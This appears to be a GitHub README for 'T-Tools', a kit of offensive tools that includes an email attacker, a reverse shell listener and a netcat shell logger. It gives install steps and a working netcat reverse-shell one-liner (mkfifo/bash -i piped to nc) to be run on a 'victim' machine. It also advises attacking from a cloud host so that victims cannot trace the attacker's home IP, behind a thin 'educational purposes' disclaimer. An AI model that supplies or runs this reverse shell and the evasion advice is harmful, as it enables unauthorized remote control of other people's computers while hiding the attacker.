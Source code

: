 # T-Tools-advanced--cyber-security


# What is T-Tools

T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

> Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

> And this tool is only for educational purposes.

    kali@attacker ~ $ python3 listen.py
    kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <add your ip> 9999 >/tmp/f  
           
Made with 💖 by THB
